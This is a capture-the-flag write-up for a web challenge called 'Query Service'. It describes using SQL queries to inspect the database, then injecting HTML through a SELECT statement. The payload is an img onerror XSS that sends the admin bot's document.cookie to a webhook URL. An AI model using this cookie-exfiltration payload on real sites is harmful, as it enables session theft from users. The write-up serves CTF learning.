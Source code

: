 # Query Service

Challenge Description:

> I've made a little website to access a SQL database. I even added a way to share your queries with other people! Just copy the link.

> Hint1: The contents of the database will give you some info on what to do next.

> Hint2: You can only change the query; can you inject arbitrary HTML with it?

## Analyzing the website

We are given a query input field where we can input sql statements.We can `sqlite_master` table to get the structure of the database and the tables.  

![sql schema](schema.png)

We see a notes table and we try seeing the contents of it as well.  

![notes table](notes.png)  

It gives us a link to a admin bot which has the flag as the cookie and this seems like a XSS challenge now.  

We can inject html into the field using the below command  

Command --> `select "<img src=x onerror=this.src='https://webhook_url/?cookie='+document.cookie;>"`

Giving the link of the submitted page to the admin bot gives us requests in the webhook page which we have opened.

![admin bot](admin_bot.png)

We get the flag the cookie section in the webhook request.  

![flag_output](flag.png)
